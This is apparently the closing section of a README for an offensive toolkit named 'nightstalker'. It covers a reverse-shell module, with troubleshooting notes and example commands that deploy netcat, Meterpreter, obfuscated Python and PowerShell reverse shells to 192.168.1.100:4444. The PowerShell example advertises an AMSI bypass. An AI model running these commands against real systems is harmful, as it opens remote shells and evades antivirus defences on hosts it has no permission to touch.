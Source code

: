 ### Exploit Manager Integration
- Can be called from exploit chains
- Supports automated deployment
- Integrates with reporting system

## Troubleshooting

### Common Issues

1. **msfvenom Not Found**
   ```
   Error: msfvenom command not found
   Solution: Install Metasploit Framework
   ```

2. **Permission Denied**
   ```
   Error: Permission denied when saving file
   Solution: Check directory permissions
   ```

3. **Network Detection Failed**
   ```
   Error: Failed to get network info
   Solution: Check network connectivity
   ```

### Debug Mode

Enable verbose logging:
```bash
nightstalker reverse-shell deploy --verbose
```

## Examples

### Basic Netcat Reverse Shell
```bash
nightstalker reverse-shell deploy --type nc --target-ip 192.168.1.100 --port 4444
```

### Metasploit Meterpreter
```bash
nightstalker reverse-shell deploy --type msfvenom --target-ip 192.168.1.100 --port 4444
```

### Python Script with Obfuscation
```bash
nightstalker reverse-shell deploy --type python --target-ip 192.168.1.100 --port 4444
```

### PowerShell with AMSI Bypass
```bash
nightstalker reverse-shell deploy --type powershell --target-ip 192.168.1.100 --port 4444
```
